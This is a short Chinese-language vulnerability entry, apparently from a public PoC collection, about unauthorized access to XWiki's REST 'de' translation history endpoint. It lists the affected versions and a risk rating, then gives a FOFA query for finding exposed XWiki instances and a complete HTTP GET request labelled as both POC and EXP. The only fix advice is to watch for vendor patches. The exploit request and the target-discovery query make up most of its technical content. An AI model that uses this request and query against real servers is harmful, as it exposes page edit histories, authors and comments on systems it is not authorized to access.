

# XWiki de-history接口未授权访问

# 漏洞描述

XWiki的de/ history接口存在未授权访问漏洞，未授权用户可通过该漏洞获取页面的每次修改、修改时间、版本号、修改的作者和版本注释等信息

# 影响版本

xwiki-platform >= 1.8.0, < 15.10.9 >= 16.0.0-rc-1, < 16.3.0-rc-1

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：body="data-xwiki-reference"

POC/EXP：

GET /xwiki/rest/wikis/xwiki/spaces/Main/pages/WebHome/translations/de/history HTTP/1.1
Host: 127.0.0.1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9

# 漏洞修复

关注厂商官网动态，及时更新补丁信息。

---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
